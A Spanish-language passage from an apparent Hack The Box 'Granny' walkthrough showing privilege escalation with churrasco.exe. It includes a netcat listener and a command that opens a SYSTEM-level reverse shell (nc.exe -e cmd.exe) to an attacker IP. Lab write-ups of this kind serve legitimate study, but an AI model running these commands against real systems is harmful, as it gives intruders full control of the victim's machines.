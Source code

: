 probamos nuestro exploit y vemos que podemos ejecutar comando con permisos de nt authority system

![Untitled](/assets/images/2022-02-15-writeup-maquina-htb-granny/Untitled%205.png)

```bash
churrasco.exe whoami
nt authority\system

C:\WINDOWS\Temp\privesc>
```

ahora dejamos el puerto 443 en escucha en nuestra maquina local

```bash
Granny # ❯ nc -nlvp 443
listening on [any] 443 ...
```

ejecutamos la siguiente linea de comandos para obtener una reverse shell

```bash
churrasco.exe "C:\WINDOWS\Temp\privesc\nc.exe -e cmd.exe 10.10.14.54 443"

C:\WINDOWS\Temp\privesc>
```

de esta manera obtenemos una reverse shell con privilegios de nt authority system

![Untitled](/assets/images/2022-02-15-writeup-maquina-htb-granny/Untitled%206.png)